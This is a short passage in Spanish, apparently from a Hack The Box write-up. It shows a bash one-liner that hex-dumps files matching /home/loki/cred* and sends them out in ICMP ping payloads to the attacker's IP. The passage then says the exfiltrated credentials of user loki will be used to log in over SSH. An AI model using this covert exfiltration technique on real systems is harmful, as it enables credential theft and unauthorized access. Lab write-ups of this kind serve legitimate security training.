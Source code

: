 ![mensaje de la pagina que nos indica fichero credentials.png](/assets/img/mensaje-de-la-pagina-que-nos-indica-fichero-credentials.png)

Vamos a ver que contenido tiene.

```bash
xxd -p -c 4 /home/loki/cred* | while read line; do ping -c 1 -p $line NUESTRA_IP_HTB; done
```

![acceso a la maquian con la informacion exfiltrada por icmp.png](/assets/img/acceso-a-la-maquian-con-la-informacion-exfiltrada-por-icmp.png)

Ahora que poseemos las credenciales de *loki* podemos intentar conectarnos con este usuario a la máquina víctima por *SSH*.
